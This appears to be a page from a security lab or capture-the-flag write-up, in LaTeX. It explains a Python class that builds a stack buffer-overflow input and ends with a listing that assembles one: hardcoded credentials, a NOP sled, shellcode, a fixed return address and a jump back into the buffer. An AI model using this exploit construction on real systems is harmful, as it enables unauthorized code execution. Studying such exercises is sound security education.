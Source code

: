 \documentclass{article}
\begin{document}
Inside we have define a class \texttt{ShellCodeGenerator} which has a few
helpful methods for creating overflowing binary content.\\
Genrally - the usage of the class is as follows: an instance is created,
and the methods are used to describe the desigered binary content -
then the \texttt{write\_to\_file} method is used to write 
the generated binary content to a file.\\

The most notable methods for the binary generation process are:
\begin{itemize}
    \item \texttt{append\_strline} - use to add the username, password and command at the start of the resulting input file.
    In practice this simply appends the ascii encodings to the provided string to the binary stream.
    \item \texttt{load\_from\_asm\_file} - this method assembles the content of the provided
    assembly file, then appends the resulting binary content to the binary stream.
    \item \texttt{append\_dword} - this method recives a 32-bit number - such as an address
    and appends it to the bitstream - in little endian format.
    \item \texttt{start\_buffer\_cnt} - this starts keeping track of the current offset
    the binary stream (initialized to 0).
    \item \texttt{comptete\_buffer\_to\_size} This completes the current 
    buffer to the provided size by appending \texttt{nop} instructions.
    In conjunction with \texttt{start\_buffer\_cnt} we can esaly ensure
    we will override the return address at the correct offset without worrying about
    what was the exact size of what we have inserted into the buffer so far.
\end{itemize}

After implementing this class, to create our binary input file we simply run:
\begin{lstlisting}
gen = ShellCodeGenerator()
gen.append_strline("archer")
gen.append_strline("FKGXJP0OCE1LKT3D")
gen.append_strline("PEEK")

gen.start_buffer_cnt()
gen.nop_cascade(16004)
gen.load_from_asm_file(asm_input_filename)
gen.comptete_buffer_to_size(16304)#
gen.append_dword(0x62502028)
gen.append_asmline("jmp -330")
gen.append_strline("")

gen.write_to_file(output_filename)
\end{lstlisting}
\end{document}
